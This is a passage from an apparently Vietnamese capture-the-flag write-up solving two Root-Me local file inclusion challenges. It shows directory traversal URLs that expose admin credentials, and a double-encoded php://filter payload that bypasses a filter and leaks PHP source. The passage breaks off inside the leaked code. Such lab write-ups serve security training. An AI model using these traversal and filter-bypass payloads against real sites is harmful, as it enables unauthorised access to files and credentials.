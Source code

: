 # 1.Local File Inclusion(Root me)
Link challenge : [http://challenge01.root-me.org/web-serveur/ch16/](http://challenge01.root-me.org/web-serveur/ch16/)
#### Statement: Get in the admin section.

![image](https://scontent.xx.fbcdn.net/v/t1.15752-9/334048014_3144244362540643_2722104050429279549_n.png?stp=dst-png_p206x206&_nc_cat=104&ccb=1-7&_nc_sid=aee45a&_nc_ohc=4Kilo_bdW0oAX9aYfLD&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdQA519HGfHMmgbDg2Qx2l2JhtlPVPIK0H4uICEqT-eX9w&oe=6423A012)

Web này có một số trang như:
`http://challenge01.root-me.org/web-serveur/ch16/?files=sysadm`

Bây giờ mình cần liệt kê các thư mục gốc:
`http://challenge01.root-me.org/web-serveur/ch16/?files=../`

![image](https://scontent.xx.fbcdn.net/v/t1.15752-9/334066589_887494869185478_357094037800551696_n.png?stp=dst-png_s403x403&_nc_cat=111&ccb=1-7&_nc_sid=aee45a&_nc_ohc=SIZWVZ5R0kgAX-5NVTE&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdTuwfnvlo7f2PsrrQgUV3fOM4HHm2_G6jnqgX6JCOIyag&oe=64236BA1)

Ở đây có phần `admin` nên mình cần truy cập vào thư mục này
`http://challenge01.root-me.org/web-serveur/ch16/?files=../admin`

Mình nhận được file `index.php` mình mở lên sẽ nhận được thông tin đăng nhập tài khoản admin.

![image](https://scontent.xx.fbcdn.net/v/t1.15752-9/333600122_1322559018401743_7622876876755481784_n.png?_nc_cat=106&ccb=1-7&_nc_sid=aee45a&_nc_ohc=UHs5djOPhkYAX8MLzpy&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdThVpq_vP90X_pCyGSeOe7OVVsaxT11W99HANmCj7VDGg&oe=64239553)

# 2.Local File Inclusion - Double encoding(Root me)
Link challenge : [http://challenge01.root-me.org/web-serveur/ch45/](http://challenge01.root-me.org/web-serveur/ch45/)

![image](https://scontent.xx.fbcdn.net/v/t1.15752-9/333506032_1317539442146712_2354584585538102562_n.png?stp=dst-png_p206x206&_nc_cat=110&ccb=1-7&_nc_sid=aee45a&_nc_ohc=gVPGuLDcBQYAX_oiWYi&_nc_oc=AQlas4tiUG7_EzBIT7EKXOoyTONZ22ZcOzoRHLafrZmLCJphf-z9tZrjUskch16QgADh0crATQqpPg22evNFO-yR&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdT-cigtYztLezXHnF9zSEPgxfn9aHpvTq_qNLDaep3Egg&oe=64237D69)

Mình thử nhâp như câu trên:
`http://challenge01.root-me.org/web-serveur/ch45/index.php?page=../`

thì hiện thị `attack detected` có vẻ ở đây họ đã filter.
Mình cũng đã thử `double encode` `../ = %252e%252e%252f` những vẫn không được.

Sau khi tìm hiểu thêm thì bài này không giống bài trước,phải sử dụng kỹ thuật khai thác LFI khác `php wrapper`

Ở đây mình cần tim resource nên sử dụng payload: 
`php://filter/convert.base64-encode/resource=cv`

Mình cần double encode payload ở trên:
`php%253A%252F%252Ffilter%252Fconvert%252Ebase64%252Dencode%252Fresource%253Dcv`

Sau đó mình nhận được một chuỗi `base64` mình decode ra thì nhận được một file `conf.inc.php`
```PHP
<?php include("conf.inc.php"); ?>
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <title>J. Smith - CV</title>
  </head>
  <body>
    <?= $conf['global_style'] ?>
    <nav>
      <a href="index.php?page=home">Home</a>
      <a href="index.php?page=cv" class="active">CV</a>
      <a href="index.php?page=contact">Contact</a>
    </nav>
    <h1><?= $conf['contact']['firstname'] ?> <?= $conf['contact']['lastname'] ?></h1>
    <h3>Professional doer</h3>
    <?= $conf['cv']['gender'] ? "Male" : "Female" ?><br>
    <?= date('Y/m/d', $conf['cv']['birth']) ?> (<?= date('Y')-date('Y', $conf['cv']['birth']) ?>)
    <?php
```